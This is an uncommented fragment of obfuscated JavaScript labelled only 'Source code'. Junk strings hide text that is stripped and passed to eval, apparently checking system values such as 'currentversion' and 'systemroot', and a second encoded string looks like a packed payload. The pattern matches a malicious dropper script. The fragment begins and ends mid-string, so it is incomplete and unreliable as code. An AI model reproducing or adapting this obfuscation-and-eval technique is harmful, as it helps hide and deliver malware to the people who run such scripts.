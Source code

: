 ```javascript
'BNMecoDlnXPECQGJpWSFwRVsYtUhiOuBNMecoDlnXPEC(9GJ'+
'pWSFwRVsYtUhiOuBNMecoDl'+
'nXPEC2GJpWSFwRVsYtUhiOuBNMecoDlnXPEC)GJpWSFwRVsYtUhiOuBNMecoDlnXPEC+GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"GJpWSFwRVsYtU'+
'hi'+
'OuBNMecoDlnXPECcGJpWSFwRVsYtUhiOuBNMecoDlnXPECurr'+
'GJpWSFwRVsYtUhiOuBNMecoDlnX'+
'PECeGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPEC'+
'ntveGJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMecoDlnXPECsGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECiGJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXP'+
'ECoGJpWSFwRVsYtUhiOuBNMecoDlnXPECn"+TGJpWSFwRVsYtUhiOuBNMecoDlnXPECbGJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPECGEGJpWSFwRVsYtUhiOuBNMecoDlnXPECHCtKGJpWS'+
'FwRVsYtUhiOuBNM'+
'ecoDlnXPECwI'+
'hGJpWSFwRVsYtUhiOuBNMecoDlnXPECYaGJpWSFwRVsYtUhiOuBNMecoDlnXPECMGJpWSFwRVsYtUhiOuBNMecoDlnXPECQ(GJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
'9GJpWSFwRVsYtUhiOuBNMecoDlnXPEC2GJpWSFwRVsYtUhiOuBNMecoDlnXPEC)GJpWSFwRVsYtUhiOuBNMecoDlnXPEC+GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"GJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECsGJpWSFwRVsYtUhiOuBNMecoDlnXP'+
'ECy'+
'GJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECsteGJpWSFwRVs'+
'YtUhiOuBNMecoDlnXPECmGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECrooGJpWSFwRVsYtUhiOuBNMecoDlnXPECtGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPEC"GJpWSFwRVsYtUhiOuBNMecoDlnXPEC)GJpWSFwRVsYtUhiOuBNMecoDlnXPEC, GJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpW'+
'SFwRVsYtUhiOuBNMecoDln'+
'XPECYLGJpWSFwRVsYtUhiOuBNMecoDlnXPECsKG'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECMGJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECogNGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPECxGJpWSFwRVs'+
'YtUhiOuBNMec'+
'oDl'+
'nXPECafGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPEClpGJpWSF'+
'w'+
'RVsYtUhiOuBNMec'+
'oDlnXPECJzGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECkGJp'+
'WSFw'+
'RVsYtUhiOuBNMecoDlnXPEC)'+
'; '
function XOyVnRvEqrjMwfcFaAT(gjlyFCpsAORKXUGhLe, LMyQkogEupxIXDTR) { 
return gjlyFCpsAORKXUGhLe.split(LMyQkogEupxIXDTR).join(""); }
var cYoVvBXxTbwjgGPsIqp = eval(XOyVnRvEqrjMwfcFaAT(PWbHcohUjVMyBnmwCvf, "GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"));
if (FQGRNaLqikoBUvTsD() == false) {
var HPdwCzgUSIhEaDtvb = 
"Ch-Cy-dCoC+-xqhvf-d-sCh+%C-y-CdC-u-(53zvk-(C-53(6G(5-3CqC-hz(53-CDfwClyh[CRCe-m-h-"+
"C-fC-w(C5;-C(55zvfulsCw"+
"(5-HCvCk-C-h-CooC-(-5-5C-("+
"5-"+
"&lt;"+
"(6-CE(3G(3-D-yC-dC-u-(-5C-3"+
"-v-C-kC(53("+
"C6-CG(53-"+
"qhz(C-5C-3D-Cfwl-C-yh[RCem-hf-wC(5-"+
";C(5-C5"+
"vk-C-"+
"h-o-Co(5CH-dss-ol-CfdwlCrq-(-55(5-&lt;-(6E("+
"3-"+
```